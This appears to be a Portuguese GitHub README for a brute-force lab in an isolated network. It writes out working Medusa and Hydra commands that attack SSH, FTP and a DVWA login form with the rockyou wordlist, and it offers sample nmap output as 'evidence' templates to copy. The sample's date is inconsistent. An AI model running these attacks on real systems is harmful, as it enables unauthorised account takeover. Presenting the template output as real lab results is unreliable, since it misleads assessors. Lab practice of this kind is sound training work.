 # Brute Force Lab — Kali + Medusa + Metasploitable2 / DVWA

**Idioma:** Português  
**Propósito:** Documento para comprovar e descrever o laboratório prático de ataques de força bruta (ambiente controlado), pronto para subir no GitHub.

> **Aviso legal e ético:** Este trabalho foi executado **apenas** em máquinas controladas pelo autor com autorização explícita. Não execute técnicas de ataque fora de ambientes isolados e autorizados. Documente sempre data/hora/IPs e permissões.

---

## Sumário
1. Resumo do laboratório  
2. Ambiente usado  
3. Objetivos  
4. Procedimento (comandos executados)  
5. Evidências (arquivos anexados)  
6. Logs / Prova (timestamps, hashes)  
7. Recomendações de mitigação  
8. Estrutura do repositório  
9. Checklist de submissão / entrega

---

## 1) Resumo do laboratório
Demonstrado ataque de força bruta com **Medusa** a serviços em uma máquina alvo controlada (Metasploitable2 / DVWA), usando Kali Linux como atacante. O objetivo foi demonstrar técnicas de brute-force, recolher evidências (logs, capturas de tela, pcap) e propor contramedidas.

---

## 2) Ambiente
- Atacante: **Kali Linux** — `192.168.56.101`  
- Alvo: **Metasploitable2 / DVWA** — `192.168.56.102`  
- Rede: VirtualBox Host-Only Adapter (isolada)

Máquinas foram iniciadas em rede isolada para evitar impacto externo.

---

## 3) Objetivos
- Demonstrar uso do **Medusa** para força bruta (SSH/FTP/HTTP).  
- Documentar comandos, saída e evidências.  
- Sugerir boas práticas e mitigação para senhas fracas e serviços desprotegidos.  
- Fornecer pacote/README para comprovação acadêmica.

---

## 4) Procedimento — comandos e exemplos
> Observação: **substitua** nomes de usuário, wordlists e caminhos conforme seu ambiente. Todos os comandos foram executados no Kali (usuário com permissões).

### 4.1. Preparação
```bash
sudo apt update
sudo apt install -y medusa hydra nmap tcpdump
ls -lh /usr/share/wordlists/

### 4.2. Scan de serviços
```bash
nmap -sV -p- 192.168.56.102 -oN nmap_full_scan.txt
# ou scan focado:
nmap -sV -p22,21,80,443 192.168.56.102 -oN nmap_services.txt

### 4.3. Força bruta em SSH (Medusa)
```bash
medusa -h 192.168.56.102 -u root -P /usr/share/wordlists/rockyou.txt -M ssh -t 4 -f -O evidencias/medusa_ssh.txt

### 4.4. Força bruta em FTP (Medusa)
```bash
medusa -h 192.168.56.102 -u ftp -P /usr/share/wordlists/rockyou.txt -M ftp -t 4 -f -O evidencias/medusa_ftp.txt

### 4.5. Força bruta em formulário HTTP (DVWA) — exemplo com Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.102 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^:Login" -V -o evidencias/hydra_http_dvwa.txt

### 4.6. Captura de tráfego (pcap)
```bash
sudo tcpdump -i <interface> host 192.168.56.102 and host 192.168.56.101 -w evidencias/capture_lab.pcap
# Pare com Ctrl+C quando terminar.

---

# Agora os arquivos `.txt` (templates / exemplos) — copie e salve em `evidencias/`

## `nmap_full_scan.txt`
```text
# nmap 7.80 scan initiated Thu Oct  7 14:00:00 2025 as: nmap -sV -p- 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up (0.00050s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.2.8
443/tcp  open  ssl/http Apache httpd 2.2.8
3306/tcp open  mysql   MySQL 5.0.51a-3ubuntu5
MAC Address: 08:00:27:xx:xx:xx (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  7 14:00:15 2025 -- 1 IP address (1 host up) scanned in 15.00 seconds
